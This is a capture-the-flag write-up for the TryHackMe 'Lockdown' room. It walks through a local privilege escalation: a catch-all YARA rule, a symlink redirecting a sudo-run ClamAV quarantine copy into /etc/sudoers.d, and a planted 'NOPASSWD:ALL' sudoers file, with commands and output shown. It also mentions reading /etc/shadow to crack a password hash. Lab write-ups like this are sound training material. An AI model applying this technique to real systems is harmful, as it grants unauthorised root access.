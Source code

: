 # Lockdown CTF writeup

There are plenty of excellent writeups about this nice challenge by hangrymoose ([https://tryhackme.com/p/hangrymoose](https://tryhackme.com/room/lockdown)). You can find them here: [https://tryhackme.com/room/lockdown](https://tryhackme.com/room/lockdown).

Since I'm a lazy person, I just want to show a sligthly different way of getting root by file *writing*, using a custom sudoers configuration.

The vulnerability that gives us the ability to read arbitrary files is related to the `/opt/scan/scan.sh` script and the fact that we can write arbitrary rules in the `/var/lib/clamav` directory (which has 777 permissions).

The incriminated script is:

```bash
#!/bin/bash

read -p "Enter path: " TARGET

if [[ -e "$TARGET" && -r "$TARGET" ]]
  then
    /usr/bin/clamscan "$TARGET" --copy=/home/cyrus/quarantine
    /bin/chown -R cyrus:cyrus /home/cyrus/quarantine
  else
    echo "Invalid or inaccessible path."
fi
```

Many users have already explained how to write a custom yara rule which identifies every file as "virus", so we can copy them in our quarantine directory, actually reading `/root/root.txt` or `/etc/shadow` for instance (this gives us user maxine password hash which, once cracked, gives us root given maxine permissions).

But notice that chown by default does not follow symbolic links so, if we substitute the quarantine directory with a link to `/etc/sudoers.d/` we should be able to place an arbitrary "virus" file in `/etc/sudoers.d`, thus elevating our privileges.


So first we write our custom YARA rule:

```bash
cat > /var/lib/clamav/foo.yara <<EOF
rule CheckFileSize
{
  strings:
    \$abc = "abc"
  condition:
    (\$abc or not \$abc)
}
EOF
```

and place a symbolic link that points to the sudoers.d directory:

```
rmdir quarantine/
ln -s /etc/sudoers.d quarantine
```

We then prepare a custom sudoers configuration:

```
echo "cyrus ALL=(ALL:ALL) NOPASSWD:ALL" > evil_sudoers_file
```

and finally we run scan.sh


```
echo evil_sudoers_file | sudo /opt/scan/scan.sh 
/home/cyrus/evil_sudoers_file: YARA.CheckFileSize.UNOFFICIAL FOUND
/home/cyrus/evil_sudoers_file: copied to '/etc/sudoers.d/evil_sudoers_file'

----------- SCAN SUMMARY -----------
Known viruses: 2
Engine version: 0.103.2
Scanned directories: 0
Scanned files: 1
Infected files: 1
Data scanned: 0.00 MB
Data read: 0.00 MB (ratio 0.00:1)
Time: 0.008 sec (0 m 0 s)
Start Date: 2021:10:03 14:01:29
End Date:   2021:10:03 14:01:29
```

Notice sudo -l output:

```
cyrus@lockdown:~$ sudo -l
Matching Defaults entries for cyrus on lockdown:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User cyrus may run the following commands on lockdown:
    (root) /opt/scan/scan.sh
    (ALL : ALL) NOPASSWD: ALL
```

At this point we can just `sudo -i`
